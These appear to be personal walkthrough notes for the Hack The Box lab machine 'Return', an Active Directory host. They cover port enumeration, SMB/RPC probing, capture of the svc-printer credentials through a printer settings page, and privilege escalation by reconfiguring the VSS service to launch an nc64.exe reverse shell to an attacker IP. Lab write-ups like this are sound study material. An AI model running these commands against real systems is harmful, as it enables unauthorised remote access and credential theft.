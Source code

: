 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 80
	- Microsoft IIS httpd 10.0
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
- 80
	- Default landing page
		- ![[Pasted image 20240827124346.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /settings.php
				- ![[Pasted image 20240827124400.png]]
				- Change IP to A_IP
				- nc -lvnp 389
				- Run update
					- `return\svc-printer:1edFg43012!!
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- svc-printer
	- crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
		- READ WRITE over C$
	- evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
### PE
#### Windows
- svc-printer
	- whoami /all
		- SeMachineAccountPrivilege  - add account a machine to domain
		- SeLoadDriverPrivilege  -  vulnerable driver and exploiting
			- https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system
		- SeBackupPrivilege - get arbitrary file read
			- https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#shell-as-svc_backup
	- Root drive directory
	- net user USERNAME
		- Check group memberships
		- Server Operators
			- Allows us to modify services
			- Upload nc.exe to target
			- Option 1
				- `sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd A_IP 443"
				- sc.exe stop VSS
				- nc -lvnp 443
				- sc.exe start VSS
			- Option2
				- `sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
				- nc -lvnp 443
				- sc.exe start VSS
### Credentials
### Lessons Learned